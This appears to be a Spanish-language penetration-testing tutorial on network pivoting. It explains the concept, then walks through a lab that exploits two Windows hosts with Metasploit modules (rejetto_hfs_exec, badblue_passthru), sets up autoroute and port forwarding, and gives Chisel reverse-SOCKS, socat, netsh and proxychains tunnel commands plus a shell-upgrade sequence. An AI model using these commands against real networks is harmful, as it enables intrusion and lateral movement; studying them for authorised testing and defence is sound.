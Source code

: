 # Pivoting en Ciberseguridad

## Introducción
El pivoting es una técnica esencial en el mundo de la ciberseguridad que implica moverse lateralmente dentro de una red comprometida para acceder a sistemas y recursos adicionales. Esta técnica es utilizada por los profesionales de seguridad para mantener y expandir el acceso a través de una infraestructura comprometida.

## ¿Qué es el Pivoting?
En términos sencillos, el pivoting se refiere a la acción de utilizar una máquina comprometida como punto de entrada para acceder a otros sistemas dentro de la red. Esta técnica es particularmente útil cuando se ha obtenido acceso a un sistema perimetral y se busca infiltrarse en segmentos de red más internos.

## Tipos de Pivoting
Existen varios tipos de pivoting en función de cómo se realiza el movimiento lateral:

- **Pivoting Directo:** Se realiza desde la máquina comprometida hacia otros sistemas dentro de la misma red.
- **Pivoting a Través de Saltos:** Implica moverse a través de múltiples máquinas comprometidas para alcanzar el objetivo deseado.
- **Pivoting en Cadena:** Consiste en conectar varios sistemas comprometidos para llegar a la red objetivo.

## Herramientas y Técnicas
Para llevar a cabo el pivoting, los profesionales de seguridad utilizan herramientas y técnicas específicas, como:

- **SSH Túneles:** Establecer conexiones seguras a través de SSH para redirigir tráfico.
- **Proxychains:** Enrutamiento de tráfico a través de una cadena de proxies.
- **Port Forwarding:** Redireccionamiento de puertos para acceder a servicios internos.
- **VPN y Socks:** Uso de VPN o servidores SOCKS para ocultar el origen del tráfico.

## Importancia en la Ciberseguridad
El pivoting es una habilidad crucial para los analistas de seguridad y los pentesters, ya que les permite comprender la amplitud de una infracción y evaluar la exposición potencial en una red comprometida. Además, ayuda a identificar y remediar posibles puntos de entrada y movimiento lateral en futuros ataques.

## Caso Práctico
![Pivoting](pivoting.png)

Esta imagen en lo personal me encanta, ilustra de manera perfecta de lo que quiere tratar el pivoting, en base a esta imagen vamos a tener una máquina víctima con IP 10.4.20.196 y otra máquina víctica con IP 10.4.20.195. El primer equipo, es vulnerable a rejetto_hfs_exec.
```python
Victim Machine 1 : 10.4.20.196
Victim Machine 2 : 10.4.20.195
nmap -sV 10.4.20.196
//tiene una vulnerabilidad en 80/tcp    open  http               HttpFileServer httpd 2.3
use exploit/windows/http/rejetto_hfs_exec
set rhosts 10.4.20.196
ipconfig
//Interface 12 vemos lo siguiente
IPv4 Address : 10.4.20.196
IPv4 Netmask : 255.255.240.0
//debemos de establecer un ruteo para leer otras IP
run autoroute -s 10.4.20.0/20
background (ahora si guardamos la sesión)
use auxiliary/scanner/portscan/tcp (para escanear puertos)
set rhosts 10.4.20.195 (IP target 2)
set PORTS 1-100
run
//veremos algo como esto
[+] 10.4.20.195:          - 10.4.20.195:80 - TCP OPEN
//retornamos a la sesion para hacer un port foward
session 1
portfwd add -l 1234 -p 80 -r 10.4.20.195 (IP del target 2)
portfwd list (para validar)
//sin cerrar metasploit ejecutamos los siguiente en una terminal
nmap -sV -sS -p 1234 localhost
1234/tcp open  http    BadBlue httpd 2.7
//hay una vulnerabalidad para eso
use exploit/windows/http/badblue_passthru
set PAYLOAD windows/meterpreter/bind_tcp
set RHOSTS 10.4.20.195 (IP del objetivo 2)
run
background
session
(veremos 2 sesiones !!)
```

## Chisel, Socat y Proxychains
Como no hablar del favorito de todos, te permite realizar el pivoting y moverte de forma lateral por la red teniendo el control de las comunicaciones. Chisel es una herramienta que permite crear túneles TCP sobre conexiones HTTP y HTTPS. Puede ser utilizado tanto en la máquina comprometida como en la máquina atacante para establecer una comunicación segura y encriptada entre ellas. Chisel es útil para sortear restricciones de firewall y para acceder a sistemas internos desde una posición comprometida. Socat es una utilidad multipropósito que permite crear conexiones bidireccionales entre dos puntos. Puede utilizarse para redirigir tráfico, modificar datos en tránsito y más. Socat es versátil y se adapta a diversas necesidades de pivoting. Proxychains es una herramienta que permite enrutar conexiones a través de una cadena de servidores proxy. Es especialmente útil para mantener el anonimato y redirigir tráfico a través de múltiples puntos.

## Chisel

```python
./chisel server --reverse -p 1234 (servidor - tu equipo)
./chisel client 192.168.1.41:1234 R:socks (cliente - víctima)
./chisel client 10.10.0.128:2111 R:8888:socks (segundo cliente - víctima)
```

## Socat

```python
./socat TCP-LISTEN:4343,fork TCP:192.168.1.41:8080
```

## Proxychains

```python
socks5  127.0.0.1 8888
socks5  127.0.0.1 1080
```

## Netsh - Socat en Windows

```python
netsh interface portproxy add v4tov4 listenport=8787 listenaddress=0.0.0.0 connectport=8788 connectaddress=192.168.100.128
```

Toma en cuenta lo siguiente, conforme vas aumentando los clientes con el chisel, el puerto debe de ir en el proxychains y lo pones encima del último que has agregado como se muestra en el ejemplo proporcionado.

## Pivoting con Metasploit

```python
run autoroute -s IP/24 (meterpreter)
route add [red de destino] [máscara de subred] [sesión] (metasploit , en caso no tengas sesión de meterpreter)
use auxiliary/server/socks_proxy
socks4 IP 1080 (proxychains)
```

## Consola interactiva

```python
script /dev/null -c bash
control + z
stty raw -echo; fg
reset xterm
export TERM=xterm
```

